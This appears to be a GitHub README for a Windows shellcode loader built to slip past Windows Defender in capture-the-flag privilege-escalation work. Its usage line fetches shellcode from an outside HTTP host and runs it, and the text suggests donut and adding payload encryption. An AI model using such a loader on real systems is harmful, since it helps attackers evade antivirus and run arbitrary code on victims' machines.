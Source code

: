 ## Credits :
Credits to @manesec because shellcode over http is his idea, check out [his repo](https://github.com/manesec/shellcodeloader4mane/).

## Why ?
You're doing a CTF, have SeImpersonatePrivilege but you get stuck for 3 hours because windows defender keeps deleting godpotato.exe ?
I'm here to save the day !

## Extreme Shellcode
This is a really simple shellcode loader that can use two techniques :
- loadVirtualAlloc
- vectoredException

It will retrieve the shellcode via http to run it using one of the above techniques.

The second one is interesting because it's still kind of new. 
I wanted to make this when I found this good [blogpost](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/)
that goes into great detail on how it works.

This is a visual studio project, if you just want the executables I might add them to the release page if I'm not too lazy. 
I don't really plan on updating this while it works, but once it will get flagged by windows defender I might.
No encryption is used on the payload, feel free to fork and do it.

## How to use
You need to generate a shellcode from the executable you want to run, the best tool for this might be [donut](https://github.com/TheWover/donut).
Then just server the shellcode on http, and run
```
.\ExtremeLoader.exe http://10.10.10.10/loader.bin
```

Please please please be responsible and only use this in ctf's